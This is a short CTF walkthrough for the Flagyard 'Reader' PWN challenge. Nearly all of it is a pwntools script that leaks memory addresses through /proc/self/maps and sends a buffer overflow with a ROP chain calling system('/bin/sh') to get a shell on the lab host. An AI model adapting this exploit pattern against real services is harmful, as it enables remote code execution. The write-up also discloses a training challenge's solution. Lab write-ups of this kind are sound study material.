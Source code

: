 ```yaml
---
title: "Flagyard - Reader"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Flagyard - Reader
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Reader](https://flagyard.com/labs/training-labs/5/challenges/ec874161-e57b-4403-8ace-de20790c4b1f)|
|Category:|PWN|

# 01. Description
Next challenge from Flagyard. I also spent some time on it, but I went in a different direction than before. Anyway, you’ll see for yourselves. Below is the source code showing how to get through it.
{: .text-justify}
## Solve in Python

```py
from pwn import *             
import re

context.update(arch='x86_64', os='linux') 
context.terminal = ['wt.exe','wsl.exe'] 

binary = context.binary = ELF("./reader", checksec=False)

if args.REMOTE:
    p = remote('nc 34.252.33.37 30476'.split()[1], 30476)
else:
    p = process(binary.path)    

program_name='/app/run'

p.sendlineafter(b"read:", b'/proc/self/maps')
SELF_MAPS=p.recvuntil(b'give me file to read: ')
base_pattern=re.search(r'^\s*([0-9a-f]+).*'+program_name,SELF_MAPS.decode(),re.MULTILINE)
libc_pattern=re.search(r'^\s*([0-9a-f]+).*/libc.so.6',SELF_MAPS.decode(),re.MULTILINE)

base_address=int("0x"+base_pattern.group(1),16)
libc_address=int("0x"+libc_pattern.group(1),16)
ret=base_address+0x101a

pop_rdi=libc_address+0x000000000010f75b
system=libc_address+0x58740
str_bin_sh=libc_address+0x1cb42f

length=120
payload=b"A"*length+p64(ret)+p64(pop_rdi)+p64(str_bin_sh)+p64(system)
p.sendline(payload)

p.interactive()
```
## Summary
This is tricky challenge. I like it.
{: .text-justify}


